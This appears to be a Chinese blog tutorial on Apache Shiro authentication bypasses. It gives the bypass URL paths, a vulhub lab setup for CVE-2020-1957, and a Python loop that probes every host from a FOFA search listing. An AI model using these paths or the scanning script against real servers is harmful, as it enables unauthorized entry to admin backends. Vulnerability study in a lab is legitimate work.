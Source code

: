 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135138798-1037130784.png)

```plain
这个漏洞是直接访问：http://127.0.0.1:9090/admin/%20
这样就可以直接登录到后台。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139562-1643975338.png)

```plain
如果在白盒的角度分析的话，这个漏洞是怎么产生的。在LoginController.java这个文件中，这个文件引用了一个包：import org.apache.shiro.SecurityUtils;
在pom.xml配置文件中：
        <dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-web</artifactId>
            <version>1.7.0</version>
        </dependency>
 
引用了这个框架org.apache.shiro，版本是1.7.0符合漏洞版本。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139492-1218347151.png)

```plain
3、CVE-2020-1957
影响范围：Apache Shiro < 1.5.3

启动环境：
cd /vulhub-master/shiro$ cd CVE-2020-1957
sudo docker-compose up -d

访问：http://192.168.233.128:8080/，点击login跳转：http://192.168.233.128:8080/login.html
如果直接访问：http://192.168.233.128:8080/xxx/..;/admin/就相当于直接进入了后台目录
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135138953-623253970.png)

```plain
也可以在网上写python代码来进行测试：
语法：app="APACHE-Shiro"

import os
import requests

for url in open('ips.txt'):
	url=url.strip()
	url='http://'+url+'/;/login'
	try:
		code=requests.get(url).status_code
		print(code)
		if code==200:
			print(url+'|ok')
	except Exception as e:
		pass
```
